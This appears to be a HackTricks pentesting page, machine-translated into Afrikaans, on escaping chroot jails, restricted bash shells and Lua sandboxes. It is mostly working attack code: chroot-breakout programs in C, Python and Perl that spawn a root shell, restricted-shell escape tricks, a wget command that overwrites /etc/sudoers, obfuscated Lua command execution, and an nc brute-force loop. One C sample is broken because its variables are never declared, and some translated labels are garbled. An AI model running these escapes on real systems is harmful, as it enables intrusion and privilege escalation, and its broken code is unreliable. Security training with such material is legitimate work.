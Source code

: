 # Ontsnapping uit Jails

{% hint style="success" %}
Leer & oefen AWS-hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP-hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Controleer de [**abonnementsplannen**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

## **GTFOBins**

**Soek in** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **as jy enige binêre lêer met die "Shell" eienskap kan uitvoer**

## Chroot Ontsnappings

Van [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Die chroot-meganisme is **nie bedoel om** teen opsetlike manipulasie deur **bevoorregte** (**root**) **gebruikers** te beskerm nie. Op die meeste stelsels stap chroot-kontekste nie behoorlik op nie en chroot-programme **met voldoende voorregte kan 'n tweede chroot uitvoer om te ontsnap**.\
Gewoonlik beteken dit dat jy as root binne die chroot moet wees om te ontsnap.

{% hint style="success" %}
Die **werktuig** [**chw00t**](https://github.com/earthquake/chw00t) is geskep om die volgende scenarios te misbruik en te ontsnap uit `chroot`.
{% endhint %}

### Root + Huidige Werkspad

{% hint style="warning" %}
As jy as **root** binne 'n chroot is, **kan jy ontsnap** deur 'n **ander chroot** te skep. Dit is omdat 2 chroots nie gelyktydig kan bestaan ​​(in Linux), dus as jy 'n vouer skep en dan 'n **nuwe chroot** op daardie nuwe vouer skep terwyl jy **buite dit is**, sal jy nou **buite die nuwe chroot** wees en dus sal jy in die FS wees.

Dit gebeur gewoonlik omdat chroot NIE jou werkspad na die aangeduide een skuif nie, sodat jy 'n chroot kan skep maar buite dit kan wees.
{% endhint %}

Gewoonlik sal jy nie die `chroot` binêre lêer binne 'n chroot-gevangenis vind nie, maar jy **kan dit saamstel, oplaai en uitvoer**:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Afrikaans</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Gestoorde fd

{% hint style="warning" %}
Dit is soortgelyk aan die vorige geval, maar in hierdie geval **stoor die aanvaller 'n lêerbeskrywer na die huidige gids** en dan **skep die chroot in 'n nuwe gids**. Uiteindelik, aangesien hy **toegang** het tot daardie **FD** **buite** die chroot, kry hy toegang daartoe en hy **ontsnap**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD kan oorgedra word oor Unix-domeinsokkels, so:

* Skep 'n kinderproses (fork)
* Skep UDS sodat ouer en kind kan kommunikeer
* Voer chroot uit in kinderproses in 'n ander vouer
* In ouer proses, skep 'n FD van 'n vouer wat buite die nuwe kind proses chroot is
* Dra daardie FD oor na die kinderproses deur die UDS te gebruik
* Kind proses chdir na daardie FD, en omdat dit buite sy chroot is, sal hy die tronk ontsnap
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Koppel die hooftoestel (/) in 'n gids binne die chroot
* Chroot na daardie gids

Dit is moontlik in Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Koppel procfs in 'n gids binne die chroot (as dit nog nie daar is nie)
* Soek na 'n pid wat 'n verskillende hoof-/cwd-inskrywing het, soos: /proc/1/root
* Chroot na daardie inskrywing
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Skep 'n Fork (kinderproses) en chroot na 'n ander vouer dieper in die FS en CD daarop
* Vanuit die ouer proses, skuif die vouer waar die kinderproses in 'n vouer voor die chroot van die kinders is
* Hierdie kinderproses sal homself buite die chroot vind
{% endhint %}

### ptrace

{% hint style="warning" %}
* 'n Tyd gelede kon gebruikers sy eie prosesse vanuit 'n proses van homself foutopspoor... maar dit is nie meer moontlik uit die boks nie
* Hoe dan ook, as dit moontlik is, kan jy ptrace in 'n proses en 'n shell-kode daarin uitvoer ([sien hierdie voorbeeld](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Tronke

### Enumerasie

Kry inligting oor die tronk:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Wysig PATH

Kyk of jy die PATH omgewingsveranderlike kan wysig
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Gebruik van vim
```bash
:set shell=/bin/sh
:shell
```
### Skep skripsie

Kyk of jy 'n uitvoerbare lêer met _/bin/bash_ as inhoud kan skep
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Kry bash vanaf SSH

Indien jy toegang het via ssh, kan jy hierdie truuk gebruik om 'n bash-skul uit te voer:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Verklaar
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Jy kan byvoorbeeld die sudoers-lêer oorskryf
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Ander truuks

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**Dit kan ook interessant wees die bladsy:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Tronke

Truuks oor ontsnapping uit python tronke op die volgende bladsy:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Tronke

Op hierdie bladsy kan jy die globale funksies vind waar jy toegang tot het binne lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval met bevel uitvoering:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Sommige truuks om **funksies van 'n biblioteek te roep sonder om punte te gebruik**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
### Ontleding van funksies van 'n biblioteek:

```bash
$ nm -D /path/to/library.so
```
```bash
for k,v in pairs(string) do print(k,v) end
```
Merk op dat elke keer as jy die vorige eenregelige kode in 'n **verskillende lua-omgewing uitvoer, verander die volgorde van die funksies**. Daarom, as jy 'n spesifieke funksie moet uitvoer, kan jy 'n brute force-aanval uitvoer deur verskillende lua-omgewings te laai en die eerste funksie van die biblioteek aan te roep:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Kry interaktiewe lua-skul**: As jy binne 'n beperkte lua-skul is, kan jy 'n nuwe lua-skul kry (en hopelik onbeperk) deur te skakel:
```bash
debug.debug()
```
## Verwysings

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Strokies: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Leer & oefen AWS Hack:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}
